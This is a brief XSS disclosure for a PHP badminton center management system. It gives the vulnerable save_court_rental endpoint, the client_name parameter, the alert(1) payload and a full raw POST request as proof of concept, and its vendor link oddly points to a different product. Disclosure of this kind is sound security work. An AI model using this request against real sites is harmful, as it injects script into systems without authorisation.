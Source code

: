 # badminton-center-management-system v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Date: 2022-05-06

Vulnerability File: /bcms/classes/Master.php?f=save_court_rental

Vulnerability location: /bcms/classes/Master.php?f=save_court_rental, client_name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /bcms/classes/Master.php?f=save_court_rental HTTP/1.1
Host: bcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------176722279832480832321731227058
Content-Length: 1164
Origin: http://bcms.com
Connection: keep-alive
Referer: http://bcms.com/bcms/admin/?page=court_rentals/manage_court_rental&id=5
Cookie: PHPSESSID=bruvaommkrfrt7tjj2m3mr8ui0

-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="id"

5
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="client_name"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="contact"

15115111511
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="court_id"

3
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="court_price"

450.00
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="datetime_start"

0222-02-22T22:22
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="hours"

22.00
-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="datetime_end"


-----------------------------176722279832480832321731227058
Content-Disposition: form-data; name="total"

9900.00
-----------------------------176722279832480832321731227058--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)